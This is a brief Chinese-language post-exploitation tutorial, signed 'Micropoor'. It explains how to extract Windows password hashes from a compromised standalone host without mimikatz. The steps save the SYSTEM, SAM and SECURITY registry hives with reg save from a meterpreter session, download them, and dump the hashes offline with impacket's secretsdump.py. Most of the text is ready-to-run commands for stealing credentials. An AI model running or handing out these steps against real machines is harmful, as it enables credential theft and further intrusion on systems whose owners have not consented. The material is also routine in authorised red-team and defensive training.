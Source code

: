 很多环境下，不允许上传或者使用 mimikatz。而针对非域控的单机离线提取 hash 显得尤为重要。

在 meterpreter shell 命令切到交互式 cmd 命令。  
![](/img/647ac3d1d83b7d7711b2cfd0ce18f1d5.jpg)

reg save 方式使得需要下载的目标机hash文件更小。  
* reg save HKLM\SYSTEM sys.hiv  
* reg save HKLM\SAM sam.hiv  
* reg save hklm\security security.hiv  

![](/img/cebaa1fc93231bc1aaf7738c222b5ac6.jpg)

![](/img/f2dc08a2bd64fc29ec0189933b4442dc.jpg)

meterpreter下自带download功能。  

![](/img/336cd95e4be157c266efcd04d9ddc064.jpg)

![](/img/3f2d037ed7ac0197c01e95b7651fad41.jpg)

### 离线提取：

本季用到的是 impacket 的  secretsdump.py。Kali默认路径：`/root/impacket/examples/secretsdump.py`

**命令如下：**
```bash
root@John:/tmp# python /root/impacket/examples/secretsdump.py ‐sam sam.hiv ‐security security.hiv ‐system sys.hiv LOCAL
```
![](/img/ced7254cc160ced11f2f3f512df53aec.jpg)


>   Micropoor
